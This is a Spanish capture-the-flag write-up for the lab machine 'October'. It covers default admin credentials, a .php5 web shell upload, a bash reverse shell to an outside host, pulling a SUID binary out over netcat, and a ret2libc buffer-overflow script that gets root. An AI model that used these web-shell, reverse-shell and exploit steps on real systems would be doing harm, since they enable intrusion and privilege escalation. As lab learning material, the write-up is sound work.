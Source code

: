 # 10.10.10.16 - October
-----------------------

Puertos abiertos: 22(ssh), 80(http)
```console
└─$ whatweb http://10.10.10.16
[200 OK] Apache[2.4.7], Cookies[october_session],HttpOnly[october_session], Meta-Author[October CMS], PHP[5.5.9-1]
```

Tenemos una web, que nos piden registrarnos. Una vez hecho esto nos dan dos cookies.
```
october_session:eyJpdiI6ImVCXC9LbE4wYVBlNU5vV1ZIaW1neDFRPT0iLCJ2YWx1ZSI6InVDWGRUdmk4QjFjRWNjMVFRaFwvWjg0M2M5Y3czMWQ4U0k1V3AxbzFaYklFSDd5TU5nZ3IzT04wcVRHWWViS2xRXC8rcUhNb2x4Q0NNbEVXZlJMNVEzOHc9PSIsIm1hYyI6IjZmZjU1ZDRlNGE4YTQwYzdhMDQ0M2VjNzZjZDM0ODMxOTUwNzNmMzA3NDY2YzMwYzA1MTM1MDk5ODQ2NWJhZjcifQ%3D%3D
user_auth:eyJpdiI6IkhIQm8xaVc0TWNMTzR4WW1tQnlHZVE9PSIsInZhbHVlIjoiZlNnYTdUa20yM2NOMGNOakdUUm5vOVBQY1ozaVwvRkxzTk5YRkp5OEk5Mnc0Rk8yNnZKSFIyYkxYc1p3Vm41ZEplR2xoZHhTRVwvNDBXYmUrZ2xyT0tyOTB5blB3TjJqNDhpR2VHOXhxNU5TTytTQ2dYR00zVU5qXC80Sjd5Q2E4c2MiLCJtYWMiOiI0N2IyZjhmMTc4OGIwMzIwNTg5NDNjYzI4ZTkwODA4NzdiZjgzMzliNjg2YzZmYmM5Njk0Nzk0NzJiYzcxYjYzIn0%3D

{"iv":"eB\/KlN0aPe5NoWVHimgx1Q==","value":"uCXdTvi8B1cEcc1QQh\/Z843c9cw31d8SI5Wp1o1ZbIEH7yMNggr3ON0qTGYebKlQ\/+qHMolxCCMlEWfRL5Q38w==","mac":"6ff55d4e4a8a40c7a0443ec76cd3483195073f307466c30c051350998465baf7"}
```

La seccion de blog nos dice de poner "Una entrada mas interesante". Nos dan el link a /storage/app/media/dr.php5 
También pone abajo un panel para comentar donde nos dejan poner markdown.

Ponemos : ```<script src="http://10.10.14.16/pwn.js"></script>``` pero no recibimos petición. El output se ve
reflejado pero al poner ```{{7*7}}``` no sale 49

HAciendo fuzzing encontre la ruta "backend" (100 hilos en vez de 200 por que da cierto error)
```console
└─$ wfuzz -c --hc=404 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.16/FUZZ/
000000019:   200        103 L    230 W      4253 Ch     "blog"
000000070:   403        10 L     30 W       284 Ch      "icons"
000000336:   200        145 L    265 W      5089 Ch     "account"
000000054:   200        216 L    384 W      9598 Ch     "forum"
000000761:   302        11 L     22 W       400 Ch      "backend"
```

En backend nos piden creds, le pongo los mios y no me dejan, busco los creds por defecto de "october cms" que son
admin:admin y entro con ellos.
```<php shell_exec($_GET['cmd']); ?>```
En searchsploit si pones "october cms" te salen varias cosas, entre ellas uno de file upload. October cms no
deja subir .php pero si .php5
```php
<?php 
    system($_GET['cmd']);
?>
```
Luego de poner en la ruta que nos dan ```bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'```
recibimos una consola al escuchar con netcat ```sudo nc -nlvp 443```

Entramos con la carpeta "/var/www/html/cms/storage/app/" Dos directorios mas atrás hay uno de config, esta bien
mirar ahí en busca de credenciales
```
www-data@october:/var/www/html/cms/config$ grep -rIE "password"
database.php:            'password'  => 'OctoberCMSPassword!!',
```
Pero no nos sirve ni para migrar al usaurio harry ni para conectarnos a la base de datos local.
Enumerando mas encontramos un binario SUID "/usr/local/bin/ovrflw"
```console
└─$ sudo nc -nlvp 666 > ovrflw
www-data@october:/tmp$ cat "/usr/local/bin/ovrflw" | nc 10.10.14.16 666
```

```console
└─$ gdb ./ovrflw
gef➤ pattern create 120
gef➤ r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
SEG FAULT
$esp   : 0xffffd0d0  →  "eaab"
$ebp   : 0x62616163 ("caab"?)
$eip   : 0x62616164 ("daab"?)
[+] Searching for '$eip'
[+] Found at offset 112 (little-endian search) likely
```
A partir de 112 de input, se desborda el buffer. 

```console
└─$ python3 -c "print('A'* 112 + 'B' * 4)"
gef➤ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
$eip   : 0x42424242 ("BBBB"?)
```

Ya tenemos control del eip, pero en vez de redirigirlo a un sitio inutil mejor a una carga de código.

```console
www-data@october:/$ for i in $(seq 1 100); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}'; done
(0xb7636000)
(0xb7605000)
(0xb756b000)
(0xb75e0000)
(0xb75e4000)
(0xb760f000)
```
El ASLR cambia cada dos por tres así que hay que coger una random como "0xb7548000"

```console
www-data@october:/$ ldd /usr/local/bin/ovrflw
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75cc000)
www-data@october:/$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@| exit@@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:/$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 162bac /bin/sh 
```
```python
import struct

junk = b"A" * 112
libc = 0xb7548000
system = struct.pack("<L", libc + 0x00040310)
exit = struct.pack("<L", libc + 0x00033260)
sh = struct.pack("<L", libc + 0x00162bac)
print(junk + system + exit + sh)
```

```console
www-data@october:/tmp$ while true; do /usr/local/bin/ovrflw $(cat /tmp/payload); done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
# whoami
root
# cat /root/root.txt
1bef37c2a94b79399a76172e417814fa
```
